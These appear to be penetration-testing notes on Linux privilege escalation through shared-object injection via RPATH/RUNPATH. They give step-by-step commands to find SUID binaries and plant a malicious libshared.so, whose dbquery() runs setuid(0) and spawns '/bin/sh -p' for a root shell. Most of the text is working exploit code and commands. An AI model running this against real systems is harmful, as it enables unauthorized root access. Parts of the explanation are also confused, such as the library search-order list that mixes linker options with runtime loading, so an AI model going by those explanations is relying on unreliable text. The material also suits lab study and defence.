









Shared Object Injection (RPATH, RUNPATH)
• When a program is executed, it will try to load the shared objects it requires.
• By using a program called ldd or strace, we can determine the shared object libraries that are being loaded by an executable.
• Determine if the application was compiled with RPATH or RUNPATH options.
If yes, can we write into the locations specified by the either of those options?
0. Linux Smart Enumeration(lse.sh)
target@debian:~$ ./lse.sh -i | more

1. manually locate files with the SUID or SGID bits set in a not standard folder:
target@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

Check for executable that should execute with SUID permissions
2. Check if the executable was compiled with RPATH or RUNPATH options.
If yes, we will be able to drop our payload in the directories defined by either of those options
target@debian:~$ objdump -x <executable>l | grep -E "RPATH|RUNPATH"
target@debian:~$ readelf -d payroll | grep -E "RPATH|RUNPATH"


The configuration allows the loading of libraries from the /development folder, which is writable by all users. This misconfiguration can be exploited by placing a malicious library in /development, which will take precedence over other folders because entries in this file are checked first (before other folders present in the configuration files).
3. Create the RUNPATH folder specified above. If it not exist already:
target@debian:~$ mkdir /development
4. Choose one of the shared library loaded by the executable and create your own shared library.
find the function name called by the binary.
target@debian:~$ ldd <executable>
for example libshared.so, the program payroll right now when search for the library libshared.so execute it from /lib/x86_64-linux-gnu/libshared.so
5. Copy the library chosen (libshared.so) in the RUNPATH folder (/development) and check if effectively change it before
cp /lib/x86_64-linux-gnu/libshared.so /development/libshared.so


6. Check if we have write permission on the RUNPATH folder (/development)
ls -la /development/

YES we can continue
7. Try to execute the program

Here there are two possibilities on what write the exploit depending from the output of this commad
◇ NO ERRORS → use a construct attribute (Check Subchapter: executable with NO ERRORS)
◇ UNDEFINED Symbol → use as function name the symbol that have generated the error
UNDEFINED Symbol
8. For example in this case create the file exploit.c with the following contents:
Executing the binary throws an error stating that it failed to find the function named dbquery.
So we will create one
#include<stdio.h>
#include<stdlib.h>
void dbquery() {
printf("Malicious library loaded\n");
setuid(0);
system("/bin/sh -p");
}
9. Compile exploitt.c into the RUNPATH /development/libshared.so:
target@debian:~$ gcc exploit.c -fPIC -shared -o /development/libshared.so

no problem for the warning
10. Run the SUID executable to get a root shell:
target@debian:~$ /home/m3b3n/payroll


When a Linux application is executed, if it uses Shared Objects, is that it will search for those Shared Objects in the following search order:
1. Any directories specified by -rpath-link options. ( RPATH )
2. Any directories specified by -rpath options. ( RPATH )
3. If the -rpath and -rpath-link options are not used, it will then search the contents of the environment variables LD_RUN_PATH and LD_LIBRARY_PATH.
4. Directories defined in the DT_RUNPATH environment variable first, if that doesn’t exist, then the DT_RPATH
5. Then, the default lib directories, normally /lib and /usr/lib .
6. Finally, any directories defined in the /etc/ld.so.conf file.
Bibliography:
• https://www.contextis.com/en/blog/linux-privilege-escalation-via-dynamically-linked-shared-object-library
• https://ftp.gnu.org/old-gnu/Manuals/ld-2.9.1/html_node/ld_3.html